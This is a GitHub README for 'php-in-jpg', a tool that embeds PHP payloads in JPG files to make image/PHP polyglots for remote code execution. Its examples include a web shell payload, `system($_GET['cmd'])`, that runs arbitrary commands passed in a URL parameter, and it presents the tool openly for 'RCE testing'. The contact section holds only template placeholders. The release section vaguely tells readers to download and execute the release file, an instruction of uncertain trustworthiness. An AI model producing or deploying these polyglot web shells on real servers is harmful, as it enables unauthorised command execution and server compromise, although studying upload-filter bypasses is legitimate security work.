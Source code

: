 # php-in-jpg 🖼️💻

![GitHub Repo stars](https://img.shields.io/github/stars/Mxzinedits/php-in-jpg?style=social) ![GitHub forks](https://img.shields.io/github/forks/Mxzinedits/php-in-jpg?style=social) ![GitHub issues](https://img.shields.io/github/issues/Mxzinedits/php-in-jpg?style=social)

php-in-jpg is a simple yet flexible tool that generates .jpg image files embedding PHP payloads, designed to support PHP RCE polyglot techniques. This project is aimed at security researchers and penetration testers looking to explore the potential of PHP in unconventional formats.

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)
- [Releases](#releases)

## Features

- **Simple to Use**: Generate .jpg files with embedded PHP payloads easily.
- **Flexible**: Supports various PHP payloads for different scenarios.
- **Polyglot Support**: Ideal for RCE (Remote Code Execution) testing.
- **Lightweight**: Minimal dependencies for quick setup.

## Installation

To get started with php-in-jpg, you need to clone the repository and install the necessary dependencies. Use the following commands:

```bash
git clone https://github.com/Mxzinedits/php-in-jpg.git
cd php-in-jpg
```

Make sure you have PHP installed on your machine. You can check this by running:

```bash
php -v
```

If you don't have PHP installed, please follow the instructions on the [official PHP website](https://www.php.net/manual/en/install.php).

## Usage

After installation, you can generate a .jpg file with a PHP payload. The command structure is as follows:

```bash
php generate.php [payload] [output.jpg]
```

### Parameters

- `payload`: The PHP code you want to embed.
- `output.jpg`: The name of the output file.

For example, to create a .jpg file with a simple PHP payload, you would run:

```bash
php generate.php "<?php phpinfo(); ?>" output.jpg
```

## Examples

Here are a few examples of using php-in-jpg:

### Example 1: Basic PHP Payload

```bash
php generate.php "<?php echo 'Hello, World!'; ?>" hello.jpg
```

This command generates a .jpg file named `hello.jpg` that, when executed on a server, will display "Hello, World!".

### Example 2: RCE Payload

```bash
php generate.php "<?php system($_GET['cmd']); ?>" rce.jpg
```

This command creates an image that allows for command execution via the `cmd` GET parameter.

### Example 3: Polyglot Usage

You can also use php-in-jpg to create polyglot files that serve multiple purposes. For instance:

```bash
php generate.php "<?php echo 'Polyglot!'; ?>" polyglot.jpg
```

This file can be interpreted as both a valid image and a PHP script.

## Contributing

We welcome contributions to php-in-jpg! If you have suggestions or improvements, please follow these steps:

1. Fork the repository.
2. Create a new branch (`git checkout -b feature/YourFeature`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature/YourFeature`).
5. Open a pull request.

Please ensure your code follows the existing style and includes appropriate tests.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Contact

For questions or suggestions, feel free to reach out:

- **Author**: [Your Name](https://github.com/YourGitHubProfile)
- **Email**: your.email@example.com

## Releases

You can find the latest releases of php-in-jpg [here](https://github.com/Mxzinedits/php-in-jpg/releases). Download the latest version and execute the file as needed.

To stay updated, visit the [Releases](https://github.com/Mxzinedits/php-in-jpg/releases) section regularly.

## Acknowledgments

- Thanks to the open-source community for their continuous support and contributions.
- Special thanks to the developers of the libraries used in this project.

## Conclusion

php-in-jpg provides a unique way to generate images that can also execute PHP code. This tool is a valuable asset for penetration testers and security researchers. With its simple interface and flexible capabilities, you can explore various RCE techniques effectively.

We hope you find this tool useful in your security assessments. Happy hacking!